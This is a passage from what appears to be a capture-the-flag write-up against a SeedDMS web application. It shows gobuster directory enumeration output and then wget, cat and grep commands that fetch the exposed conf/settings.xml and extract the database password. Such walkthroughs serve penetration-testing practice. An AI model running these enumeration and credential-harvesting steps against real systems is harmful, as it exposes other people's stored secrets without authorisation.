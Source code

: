 ```
/data                 (Status: 301) [Size: 324] [--> http://192.168.1.161/seeddms51x/data/]
/www                  (Status: 301) [Size: 323] [--> http://192.168.1.161/seeddms51x/www/] 
/conf                 (Status: 301) [Size: 324] [--> http://192.168.1.161/seeddms51x/conf/]
/pear                 (Status: 301) [Size: 324] [--> http://192.168.1.161/seeddms51x/pear/]
                                                                                           
===============================================================
2021/08/12 12:36:24 Finished
===============================================================
```

This looks promising. However data, conf and pear all redirect to a forbidden page if we try to browse them. And www redirects to the application login page.

```
http://<target>/seeddms51x/conf/
http://<target>/seeddms51x/www/
```

It is likely that directory listing or a .htaccess file is preventing us from opening the directory directly in the browser (the forbidden page). 

LESSON LEARNED: Gobuster other interesting folders. Just because the folder returns a 403 doesn’t mean that files in that folder aren’t readable.
```
gobuster dir -u http://<target>/seeddms51x/conf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x xml,txt,php,html
```
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.161/seeddms51x/conf
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              xml,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/08/12 12:44:00 Starting gobuster in directory enumeration mode
===============================================================
/settings.xml         (Status: 200) [Size: 12377]
```

And here in the conf dir we see a settings.xml file. Lets see if we can download it (because browser are notoriously garbage at rendering XML).
```
wget http://<target>/seeddms51x/conf/settings.xml
```
Lets cat that file and see its dirty secrets.
```
cat settings.xml
```
Or you could shortcut and grep for a dbPass field (if you know to look for a dbPass)
```
grep dbPass settings.xml
```
